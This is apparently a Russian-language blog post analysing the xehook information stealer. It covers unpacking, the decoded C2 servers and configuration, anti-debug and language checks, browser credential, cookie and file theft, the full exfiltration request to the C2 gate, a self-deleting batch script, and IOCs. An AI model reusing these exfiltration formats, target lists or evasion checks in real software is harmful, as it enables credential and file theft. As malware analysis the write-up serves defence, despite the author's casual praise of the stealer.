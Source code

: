 ```yaml
---
title:  "Malware Analysis - xehook stealer analysis"
date:   2024-02-29 00:01:00 +0300
author: cozy
categories: [malware, stealer]
---
```


### Introduction
Great Stealer, реально крутой стилак.
SHA256: `a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c`

### Stage 1
натравим de4dot
![](/images/xehook/1.png)
вооот сразу видно наш народный virtualProtect и createThread. Запускаем, дампим и там будут байтики 0x4d 0x5a то есть **MZ** сигнатура.
![](/images/xehook/2.png)

### xeHook stealer
obfuscated with confuserEx
![](/images/xehook/3.png)

use de4dot\
![](/images/xehook/4.png)\
готовый бинарь кайф
![](/images/xehook/5.png)

Первый метод получает рандомную строку размером в 32 байта из символов "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789". Example: "OYGSQGUGRRQKK07OWWLYT6TE25JAIGKN". Данные байты в конечном итоге будут являться названием файла.
![](/images/xehook/6.png)
следующий метод декодит C2: `https://trecube[.]com/`, `https://nc1337[.]online/`, а также обращается к C2. Если C2 возвращает `index.html` то ВПО работает с этим C2. В частности первый C2 вернул `index.html` поэтому все дальнейшие обращения будут к этому серверу.

Следующий метод конкатенирует строки с C2 для дальнейшего обращения и получения конфигурации: `https://trecube[.]com/getjson.php?id=40`. 
Получаемая конфигурация:
```Text
"{\r\n\t\"debug\": \"0\",\r\n\t\"emulate\": \"0\",\r\n\t\"virtualbox\": \"0\",\r\n\t\"virustotal\": \"0\",\r\n\t\"error\": \"0\",\r\n\t\"errorname\": \"NONE\",\r\n\t\"errtextbox\": \"NONE\",\r\n\t\"competitor\": \"0\",\r\n\t\"selfmelf\": \"1\",\r\n\t\"domaindetect\": \"facebook.com;linkedin.com;twitter.com\",\r\n\t\"filext\": \"*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*\"\r\n}"
```
проверка на всякие залупы такие как, будет ли проверяться на vm, будет ли проверяться на debug. Также *domaindetect* это домены с которых желательно собирались бы креды??, а *filext* это расширения файлов которые будут спизжены в дальнейшем.

#### Debug features

Также присутсвтуют проверки на debug
![](/images/xehook/7.png)
![](/images/xehook/8.png)
В данном случае проверяются следующие запущенные процессы (Маловато?):
1. "processhacker"
2. "netstat"
3. "netmon"
4. "tcpview"
5. "wireshark"
6. "filemon"
7. "regmon"
8. "cain"


Check Ticks
![](/images/xehook/9.png)\
Также с помощью WMI чекатеся фичи процессора путем выполнения команды: `Select * from Win32_ComputerSystem`
![](/images/xehook/10.png)
Идет обращение к `http://ip-api[.]com/line/?fields=hosting`
![](/images/xehook/11.png)
Также идет проверка на языки клавиатуры, в частности если один из следующих языков присутсвтует, то ВПО завершает свое выполнение:
1. "ru-RU" (Наши братушки получается??)
2. "kk-KZ"
3. "ro-MD"
4. "uz-UZ"
5. "be-BY"
6. "az-Latn-AZ"
7. "hy-AM"
8. "ky-KG"
9. "tg-Cyrl-TJ"

![](/images/xehook/12.png)


#### Stealer features
Обращается к `http://ip-api[.]com/json/?fields=11827` которая в формате json отдает инфу о тачке
```json
{
    "country": "<country>",
    "countryCode": "<replaced>",
    "city": "<replaced>",
    "zip": "<replaced>",
    "isp": "<holding here_replaced>",
    "org": "<provider_replaced>",
    "as": "<some_data_too_about_provider_replaced>",
    "query": "<ip_here_replaced>"
}
```
кароч я все зареплейсил, но там буквально вся инфа.
весь пиздинг идет в этом методе.
![](/images/xehook/13.png)

пиздинг идет по всем расширениям из C2, а именно:
`*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed`
все найденные файлы данное ВПО упаковывает в .zip архив, формирует файл из тех 32 байтов которые получались в первом методе путем перестановки строки"ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".\
Данный файл сохраняется по пути `%LOCALAPPDATA%`. 
В частности: `%LOCALAPPDATA%\53Q98KXOBEQ1UDM2WFKRS8MOQDWDG1EL`

Также пиздятся autofill data, cookie и все что можно с браузеров спиздить.
Также делается screenshot экрана.
В данном методе формируется запрос, которые отправляется на C2. В частности формирутеся такой запрос: 

```text
https://trecube[.]com/gate[.]php?id=40&build=new_cloudnever&passwords=<pass_count>&cookies=<cookies_count>&username=<username>&country=<country>&ip=<ip_here>&BSSID=<md5hash_of_procID_and_Diskdrive_serialNumber>&wallets=<amount_of_wallets>&token=xehook40363717&ext=0&filters=0&pcname=<pc_name>&cardsc=0&telegram=False&discord=False&steam=False&domaindetect=
```


Данный запрос отправляется на C2 вместе с файлом который является большой зипкой,и затем происходит удаление данного файла.
![](/images/xehook/14.png)

В конце выполнения ВПО формирует *.bat* скрипт, а именно скрипт с названием *delete.bat* и сохраняет его в %TEMP%
![](/images/xehook/15.png)

Содержимое данного скрипта:
```cmd
@echo off
ping 127.0.0.1 -n 2 > nul
@ "del ""%DESKTOP%\a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin"""
@"del ""%TEMP%\delete.bat"""
```

В данном скрипте происходит пинг локалхоста, удаление оригинального исполняемого файла, а также удаленние .bat скрипта.

### Stolen data
Вся спизженная дата хранится в *%LOCALAPPDATA%* с рандомным именем состоящим из перестановки 32-х байтов  "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".

Данный файл состоит из зипок .zip, но его можно воспринимать как одну целую зипку, так что его можно просто распаковать.
Вот что хранится внутри данного .zip файла:
![](/images/xehook/16.png)
Где:
1. Autofills это директория в которой находятся файлик со спизженой autofill датой из браузеров, в частности:
![](/images/xehook/17.png)
![](/images/xehook/18.png)
2. Cookies - спизженные куки файлики.
![](/images/xehook/19.png)
![](/images/xehook/20.png)
3. Files - все файлы с расширениями указанными в конфигурационном файле с C2, а именно `*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*`
![](/images/xehook/21.png)
![](/images/xehook/22.png)
Внутри данных директорий находятся файлы с расширенями, в частности пример:
![](/images/xehook/23.png)
4. About PC.txt - там находится вся инфа о пк, а также ахуенная stealerNote (записька стилера ;)) )
![](/images/xehook/24.png)
Также она плейнтекстом
```text
          _                 _    
__  _____| |__   ___   ___ | | __
\ \/ / _ \ '_ \ / _ \ / _ \| |/ /
 >  <  __/ | | | (_) | (_) |   < 
/_/\_\___|_| |_|\___/ \___/|_|\_\

xehook Stealer — https://t[.]me/xehook

Build location: a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin
Build tag: <replaced>
Build version: 2.0.8 Stable

Launch time: <replaced>
IP address: <replaced> 
Postcode: <replaced>
Location: <replaced>

Computer: <replaced>
Username: <replaced>
OS: Windows 10 Pro (x64)
Language: <replaced>

Resolution: <replaced>
GPU: <replaced>
CPU: <replaced>
RAM: <replaced>
MAC: <replaced>

Device HWID: <md5_hash_replaced>
```


ну к слову записка реально ахуенная
5. Passwords.txt - файл с пароля с браузеров, а именно hostname - это url, Username - логин, Password - пароль, Browser - ну клиент типа.
![](/images/xehook/25.png)
6. Screenshot.jpg - скриншот во время выполнения ВПО. В частности делается внутри данного метода
![](/images/xehook/13.png)

### IOCS

| C2                       |
|--------------------------|
| https://trecube[.]com/   |
| https://nc1337[.]online/ |

| SHA256                                                           | File   |
| ---------------------------------------------------------------- | ------ |
| a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c | Stage1 |
| daea71a3094e0c90554a77e95b0b354d1515f99e70fa5013f09302a5bb04dde0 | xehook |


### Conclusion
крутой стилак че сказать норм.
